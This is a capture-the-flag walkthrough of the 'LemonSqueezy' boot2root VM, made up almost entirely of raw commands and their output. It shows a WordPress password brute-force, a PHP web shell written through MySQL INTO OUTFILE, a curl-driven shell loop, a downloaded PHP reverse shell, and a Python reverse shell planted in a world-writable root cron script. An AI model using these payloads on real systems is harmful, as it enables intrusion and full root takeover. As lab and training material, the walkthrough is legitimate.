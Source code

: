 is is a beginner boot2root in a similar style to ones I personally enjoy like Mr Robot, Lazysysadmin and MERCY.

This is a VMware machine. DHCP is enabled, add lemonsqueezy to your hosts. It’s easypeasy!


└─$ sudo nmap -sT -A -Pn -n -p- 172.16.227.130
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 07:04 CEST
Nmap scan report for 172.16.227.130
Host is up (0.00062s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 00:0C:29:E2:78:CF (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.62 ms 172.16.227.130

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.80 seconds



└─$ dirb http://172.16.227.130                                                       130 ⨯

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Apr 16 07:11:20 2021
URL_BASE: http://172.16.227.130/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://172.16.227.130/ ----
+ http://172.16.227.130/index.html (CODE:200|SIZE:10701)                                  
==> DIRECTORY: http://172.16.227.130/javascript/                                          
==> DIRECTORY: http://172.16.227.130/manual/                                              
==> DIRECTORY: http://172.16.227.130/phpmyadmin/                                          
+ http://172.16.227.130/server-status (CODE:403|SIZE:279)                                 
==> DIRECTORY: http://172.16.227.130/wordpress/ 


[+] Performing password attack on Xmlrpc against 2 user/s

[!] Valid Combinations Found:
 | Username: orange, Password: ginger

└─$ wpscan  --url http://lemonsqueezy/wordpress/  -P /usr/share/wordlists/rockyou.txt  

http://lemonsqueezy/wordpress/wp-admin/post.php?post=5&action=edit

n0t1n@w0rdl1st!


orange@squeezy.org.au


SELECT "<?php phpinfo(); ?>"  into outfile "/tmp/info.php"
SELECT "<?php phpinfo(); ?>"  into outfile "/var/www/html/info.php"
SELECT "<?php phpinfo(); ?>"  into outfile "/var/www/html/wordpress/info.php"
SELECT "<?php system($_GET['cmd']); ?>"  into outfile "/var/www/html/wordpress/shell.php"





http://172.16.227.130/wordpress/shell.php?cmd=id


└─$ cat exploit.sh
#!/bin/bash

HOST=172.16.227.130
SHELL=wordpress/shell.php

printf "$ "
while read line
do
    if [[ "$line" == "exit" ]]; then
        break
    fi
   
    curl -s -G --data-urlencode "cmd=$line" http://$HOST/$SHELL
    
    printf "$ "
done < "/proc/${$}/fd/0"


$ cat /var/www/user.txt
TXVzaWMgY2FuIGNoYW5nZSB5b3VyIGxpZmUsIH

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)


./exploit.sh
$ cat /var/www/user.txt
TXVzaWMgY2FuIGNoYW5nZSB5b3VyIGxpZmUsIH
└─$ echo TXVzaWMgY2FuIGNoYW5nZSB5b3VyIGxpZmUsIH | base64 -d
Music can change your life, base64: invalid input

touch > /var/www/html/wordpress/test

wget http://172.16.227.1:8888/php-reverse-shell.php -O /var/www/html/wordpress/php-reverse-shell.phpinfo


└─$ curl http://172.16.227.130/wordpress/php-reverse-shell.php



└─$ nc -nlvp 1234                         
listening on [any] 1234 ...
connect to [172.16.227.1] from (UNKNOWN) [172.16.227.130] 41932
Linux lemonsqueezy 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3 (2017-12-03) x86_64 GNU/Linux
 18:07:20 up  3:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)




$ cat crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    /etc/logrotate.d/logrotate


$ ls -al /etc/logrotate.d/logrotate
-rwxrwxrwx 1 root root 101 Apr 26  2020 /etc/logrotate.d/logrotate



echo '#!/usr/bin/env python' >/etc/logrotate.d/logrotate
echo 'import socket,subprocess,os' >>/etc/logrotate.d/logrotate
echo 'host="172.16.227.1"' >>/etc/logrotate.d/logrotate
echo 'port=4444' >>/etc/logrotate.d/logrotate
echo 's=socket.socket(socket.AF_INET,socket.SOCK_STREAM)' >>/etc/logrotate.d/logrotate
echo 's.connect((host,port))' >>/etc/logrotate.d/logrotate
echo 'os.dup2(s.fileno(),0)' >>/etc/logrotate.d/logrotate
echo 'os.dup2(s.fileno(),1)' >>/etc/logrotate.d/logrotate
echo 'os.dup2(s.fileno(),2)' >>/etc/logrotate.d/logrotate
echo 'p=subprocess.call("/bin/bash")' >>/etc/logrotate.d/logrotate


└─$ nc -nlvp 4444                                                                      1 ⨯
listening on [any] 4444 ...
connect to [172.16.227.1] from (UNKNOWN) [172.16.227.130] 39720
id
uid=0(root) gid=0(root) groups=0(root)
python -c "import pty; pty.spawn('/bin/bash')"
root@lemonsqueezy:~# ls -al /root
ls -al /root
total 44
drwx------  6 root root 4096 Apr 26  2020 .
drwxr-xr-x 23 root root 4096 Apr 13  2020 ..
-rw-------  1 root root 2761 Apr 26  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  2 root root 4096 Apr 13  2020 .cache
drwx------  4 root root 4096 Apr 13  2020 .config
drwxr-xr-x  3 root root 4096 Apr 13  2020 .local
-rw-------  1 root root  699 Apr 13  2020 .mysql_history
drwxr-xr-x  2 root root 4096 Apr 26  2020 .nano
-rw-r--r--  1 root root  148 Aug 18  2015 .profile
-rw-r--r--  1 root root   39 Apr 26  2020 root.txt
root@lemonsqueezy:~# cat /root/root.txt
cat /root/root.txt
NvbWV0aW1lcyBhZ2FpbnN0IHlvdXIgd2lsbC4=
